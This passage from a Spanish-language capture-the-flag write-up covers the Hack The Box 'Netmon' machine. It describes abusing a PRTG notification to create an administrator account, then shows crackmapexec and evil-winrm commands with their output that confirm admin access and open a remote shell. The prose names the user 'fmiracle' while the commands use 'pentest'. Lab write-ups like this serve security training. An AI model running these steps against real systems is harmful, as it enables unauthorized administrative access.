 
Ejecutamos en el campo la instrucción, donde crearemos nuestro usuario y lo añadiremos al grupo administrador.

![](/assets/images/HTB/htb-writeup-Netmon/netmon11.PNG)

Guardamos y ahora en la notificación creada le damos en el simbolo de la campana `Send`.

![](/assets/images/HTB/htb-writeup-Netmon/netmon12.PNG)


Le damos ok en la confirmación y ya deberia haberse ejecutado la acción.


Como vimos que el puerto `445` esta abierto podemos usar `crackmapexec` y validamos que el usuario `fmiracle` ahora existe y forma parte de los usuarios `administradores`.

```bash
❯ crackmapexec smb 10.10.10.152 -u 'pentest' -p 'p3nT3st!'
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\pentest:p3nT3st! (Pwn3d!)
```

Ahora haciendo uso del servicio de administración remota de windows, podemos conectarnos por el puerto `5985`, usando la herramienta `evil-winrm`.

```bash
❯ evil-winrm -i 10.10.10.152 -u 'pentest' -p 'p3nT3st!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\pentest\Documents> cd C:\Users
```
